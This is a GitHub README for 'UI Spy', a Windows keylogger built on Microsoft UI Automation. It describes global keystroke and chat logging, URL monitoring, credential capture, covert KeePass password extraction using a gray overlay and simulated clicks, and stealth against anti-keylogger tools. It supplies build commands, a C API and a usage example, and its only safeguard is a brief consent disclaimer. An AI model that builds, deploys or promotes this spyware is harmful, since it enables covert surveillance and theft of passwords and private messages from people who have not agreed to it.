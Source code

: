 # UI Spy — Keylogger Powered by Microsoft UI Automation

**DISCLAIMER**:
**This is a full-featured keylogger.**
It captures all text input, chat messages, URL, credentials, and decrypts KeePass passwords by simulating user actions and reading the clipboard.
**Use ONLY for legal purposes: security testing, auditing, debugging with explicit user consent.**

---

## Features

| Feature                      | How It Works                                                                 |
|------------------------------|------------------------------------------------------------------------------|
| **Global Keylogging**        | Intercepts TextChanged and ValueProperty via UIA                          |
| **URL Monitoring**           | Firefox: finds urlbar input, extracts full URL and domain                  |
| **Web Chat Logging**         | WhatsApp/Slack Firefox: detects textbox by ARIA role, logs recipient + message |
| **KeePass Password Extraction** | On entry selection: hides window, overlays gray screen, clicks "Copy Password", reads clipboard |
| **Input Simulation**         | Moves mouse, sends clicks using SetCursorPos + mouse_event               |
| **Targeted Monitoring**      | By window name, PID, or entire desktop                           |
| **Stealth**                  | Uses official accessibility API bypasses most anti-keyloggers         |
| **Log Queue**                | Up to 20,000 lines, non blocking read via spy_read_line_w            |
| **C API**                    | spy_start, spy_stop, spy_read_line_w embeddable in any project |

---

### Demonstration of the result

![Demonstration of the result](https://raw.githubusercontent.com/Yuragy/Keylogger_Win64/main/test.gif)

> The animation shows real-time keystroke logging.

---
## Build Instructions STL + MSVC

### Requirements
- **Windows 10/11**
- **Visual Studio 2022**
- **Windows SDK**

### Compile MSVC

```
cl *.cpp ^
   /EHsc ^
   /MD ^
   /DUNICODE /D_UNICODE ^
   /link uiautomationcore.lib ole32.lib oleaut32.lib user32.lib psapi.lib
```

> Output: a.exe fully functional keylogger

---

### Compile MinGW-w64 / GCC

```bash
g++ -std=c++17 -municode -O2 *.cpp ^
    -o spy.exe ^
    -luiautomationcore -lole32 -loleaut32 -luser32 -lpsapi
```

---

## Dependencies

| Library                | Purpose                              |
|------------------------|--------------------------------------|
| uiautomationcore.lib | UI Automation API                    |
| ole32.lib, oleaut32.lib | COM, BSTR, VARIANT              |
| user32.lib           | Window enumeration, mouse input      |
| psapi.lib            | Process module info                  |
| STL                | std::wstring, std::mutex, std::thread. |

> No external dependencies pure WinAPI + STL

---

## Usage
```
int main()
{
    if (spy_start(nullptr, 0, 1, 0, 0, 1) != 0) {
        std::wcout << L"[ERROR] Failed to start spy\n";
        return 1;
    }
    std::wcout << L"Keylogger active. Live logs:\n\n";

    wchar_t buffer[8192];
    while (true)
    {
        size_t len = spy_read_line_w(buffer, _countof(buffer));
        if (len > 0) std::wcout << buffer << L'\n';
        if (GetAsyncKeyState(VK_RETURN) & 0x8000) break;
        Sleep(50);
    }
    spy_stop();
    std::wcout << L"\nKeylogger stopped.\n";
    return 0;
}
```
---

## spy_start Parameters

```
spy_start(
    const wchar_t* window_name, // nullptr = entire desktop
    uint32_t pid,               // 0 = ignore
    int timeout_sec,            // debounce, default: 1
    int no_uia_events,          // 1 = disable events
    int no_property_events,     // 1 = disable property changes
    int enable_debug            // 1 = enable debug logs
);
```

---

## Limitations

- Windows only
- UI structure dependent breaks if apps change AutomationId / ARIA roles
- Plaintext logs
- Same session only no RDP/other user capture
- Mouse simulation issues on high DPI or multi monitor setups

